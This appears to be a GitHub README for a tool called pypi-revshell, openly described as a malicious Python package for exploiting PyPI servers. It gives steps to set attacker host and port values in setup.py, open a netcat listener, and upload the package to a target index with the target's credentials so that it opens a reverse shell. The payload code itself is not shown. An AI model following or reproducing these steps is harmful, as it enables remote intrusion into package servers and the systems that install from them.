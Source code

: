 # pypi-revshell
Malicious Python package for PyPi server exploitation

## Create `~/.pypirc` with the target PyPi creds
https://pypi.org/project/pypiserver/#upload-with-setuptools

## Using setuptools:
```bash
git clone https://github.com/iamkashz/pypi-revshell.git
cd pypi-revshell
# modify LHOST, LPORT in setup.py

# to confirm package creation
python setup.py sdist
# should create tar archive under dist/pypi-revshell-0.1.tar.gz

# start listener using 
nc -lvnp LPORT

# uplood package to target
python setup.py sdist upload -r [remote-index-server]
```

## References
* https://pypi.org/project/pypiserver/
* https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/
